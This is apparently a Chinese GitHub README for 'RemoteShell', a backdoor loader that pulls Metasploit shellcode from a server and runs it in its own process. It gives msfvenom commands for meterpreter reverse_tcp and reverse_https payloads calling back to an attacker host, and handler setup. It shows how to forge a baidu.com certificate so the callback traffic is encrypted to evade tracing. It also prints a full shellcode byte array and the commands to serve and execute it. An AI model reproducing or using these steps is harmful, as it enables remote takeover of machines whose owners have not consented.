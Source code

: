 # RemoteShell 远程Shell加载工具

![image](https://user-images.githubusercontent.com/52789403/192442397-bc23a92a-41f9-4d54-990f-3697ba9fc701.png)

这是一款远程ShellCode反弹执行后门，该工具可动态加载MSF生成的shellcode到自身进程内。

 - 生成无加密ShellCode

非加密ShellCode代码主要用于测试可用性,由于数据包非加密,所以无法应对网络溯源.
```C
# 生成代码
[root@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=192.168.93.128 lport=9999 -f c

[root@localhost ~]# msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=192.168.93.128 lport=9999 -f c

# 建立侦听器
[root@localhost ~]# msfconsole
msf6 exploit(handler) > use exploit/multi/handler
msf6 exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(handler) > set lhost 192.168.93.128
msf6 exploit(handler) > set lport 9999
msf6 exploit(handler) > set EXITFUNC thread
msf6 exploit(handler) > exploit -j -z
```

 - 生成加密ShellCode

通过伪造证书克隆百度PEM文件,并应用于反向ShellCode代码中,此时代码在传输层已经被SSL加密.
```C
# 生成代码
[root@localhost ~]# openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
> -subj "/C=UK/ST=London/L=London/O=Development/CN=www.baidu.com" \
> -keyout www.baidu.com.key -out www.baidu.com.crt

[root@localhost ~]# cat www.baidu.com.key www.baidu.com.crt > www.baidu.com.pem
[root@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_https \
> lhost=192.168.93.128 lport=8443 PayloadUUIDTracking=true PayloadUUIDName=MyShell \
> HandlerSSLCert=/root/www.baidu.com.pem StagerVerifySSLCert=true \
> -f c -o /root/shell.c

# 建立侦听器
[root@localhost ~]# msfconsole
msf6 exploit(handler) > use exploit/multi/handler
msf6 exploit(handler) > set payload windows/meterpreter/reverse_https
msf6 exploit(handler) > set LHOST 192.168.93.128
msf6 exploit(handler) > set LPORT 8443
msf6 exploit(handler) > set HandlerSSLCert /root/www.baidu.com.pem
msf6 exploit(handler) > set StagerVerifySSLCert true
msf6 exploit(handler) > exploit -j -z
```

 - TCP反弹演示

用户通过`msfvenom`生成ShellCode代码，然后将其保存为`shellcode.log`文本文件。
```C
"\xb8\xda\x7e\x23\x13\xdb\xc3\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
"\x59\x31\x43\x14\x83\xeb\xfc\x03\x43\x10\x38\x8b\xdf\xfb\x33"
"\x74\x20\xfc\x2b\xfc\xc5\xcd\x79\x9a\x8e\x7c\x4d\xe8\xc3\x8c"
"\x26\xbc\xf7\xbd\xc7\xca\x8a\x95\x38\x7a\x20\xc0\x77\x44\x19"
"\x30\x16\x38\x60\x65\xf8\x01\xab\x78\xf9\x46\x7d\xf6\x16\x1a"
"\xf5\xaa\xf8\x10\x4b\x77\xf9\xf6\xc7\xc7\x81\x73\x17\x90\x05"
"\x30\x99\xcf\x6e\x80\x81\xbf\xfb\x49\x92\x3e\x28\xec\x1b\x34"
"\xf2\xde\x64\xfc\x81\x15\x10\xfe\x43\x64\xe6\xad\xaa\x48\xeb"
"\xac\xeb\x6f\x14\xdb\x07\x8c\xa9\xdc\xdc\xee\x75\x68\xc2\x49"
"\xfd\xca\x26\x6b\xd2\x8d\xad\x67\x9f\xda\xe9\x6b\x1e\x0e\x82"
"\x90\xab\xb1\x44\x11\xef\x95\x40\x79\xab\xb4\xd1\x27\x1a\xc8"
"\x01\x8f\xc3\x6c\x4a\x22\x15\x10\xb3\xbc\x1a\x4c\x23\x70\xd7"
"\x6f\xb3\x1e\x60\x03\x81\x81\xda\x8b\xa9\x4a\xc5\x4c\xb8\x5d"
"\xf6\x83\x02\x0d\x08\x24\x72\x07\xcf\x70\x22\x3f\xe6\xf8\xa9"
"\xbf\x07\x2d\x47\xca\x9f\x0e\x3f\x97\xdf\xe7\x3d\x28\xc7\xf8"
"\xc8\xce\x57\x57\x9a\x5e\x18\x07\x5a\x0f\xf0\x4d\x55\x70\xe0"
"\x6d\xbc\x19\x8b\x81\x68\x71\x24\x3b\x31\x09\xd5\xc4\xec\x77"
"\xd5\x4f\x04\x87\x98\xa7\x6d\x9b\xcd\xdf\x8d\x63\x0e\x4a\x8d"
"\x09\x0a\xdc\xda\xa5\x10\x39\x2c\x6a\xea\x6c\x2f\x6d\x14\xf1"
"\x19\x05\x23\x67\x25\x71\x4c\x67\xa5\x81\x1a\xed\xa5\xe9\xfa"
"\x55\xf6\x0c\x05\x40\x6b\x9d\x90\x6b\xdd\x71\x32\x04\xe3\xac"
"\x74\x8b\x1c\x9b\x06\xcc\xe2\x59\x21\x75\x8a\xa1\x71\x85\x4a"
"\xc8\x71\xd5\x22\x07\x5d\xda\x82\xe8\x74\xb3\x8a\x63\x19\x71"
"\x2b\x73\x30\xd7\xf5\x74\xb7\xcc\x06\x0e\xb8\xf3\xe7\xef\xd0"
"\x97\xe8\xef\xdc\xa9\xd5\x39\xe5\xdf\x18\xfa\x52\xef\x2f\x5f"
"\xf2\x7a\x4f\xf3\x04\xaf";
```

服务端就是攻击者，在本机执行如下命令，意思是使用TCP模式，侦听本地`8889`端口，一旦客户端上线则自动将`shellcode.log`传输给客户端。
```C
Shell> RemoteShell.exe RunServer --type tcp --listen 8889 --shellcode d://shellcode.log

[*] TCP服务端启动端口: 8889 正在等待上线.
```

此时客户端执行如下命令，意思是主动连接到服务端`127.0.0.1`下面的`8889`端口并执行ShellCode反弹。
```C
Shell> RemoteShell.exe RunClient --type tcp --address 127.0.0.1 --port 8889
```

GitHub项目地址：https://github.com/lyshark/RemoteShell
